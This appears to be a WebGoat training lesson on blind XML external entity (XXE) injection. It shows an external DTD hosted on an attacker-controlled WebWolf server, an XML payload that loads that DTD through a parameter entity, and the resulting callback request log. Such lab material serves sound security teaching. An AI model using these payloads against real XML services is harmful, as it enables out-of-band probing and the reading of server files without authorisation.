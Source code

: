== Blind XXE

In some cases you will see no output because although your attack might have worked the field is not reflected in the output of page.
Or the resource you are trying to read contains illegal XML character which causes the parser to fail.
Let's start with an example, in this case we reference an external DTD which we control on our own server.

As an attacker you have WebWolf under your control (*this can be any server under your control.*), you can for example
use this server to ping it using `webWolfRootLink:landing[noLink]`

How do we use this endpoint to verify whether we can perform XXE?

We can again use WebWolf to host a file called `attack.dtd`, create this file with the following contents:

[source, subs="macros, specialcharacters"]
----
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'webWolfRootLink:landing[noLink]'>
----

Now submit the form change the xml using to:

[source, subs="macros, specialcharacters"]
----
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "webWolfLink:files/attack.dtd[noLink]">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
----

Now in WebWolf browse to 'Incoming requests' and you will see:

[source]
----
{
  "method" : "GET",
  "path" : "/landing",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0",
    },
  },
  "parameters" : {
    "test" : [ "HelloWorld" ],
  },
  "timeTaken" : "1"
}
----

So with the XXE we are able to ping our own server which means XXE injection is possible. So with the XXE injection
we are basically able to reach the same effect as we did in the beginning with the curl command.
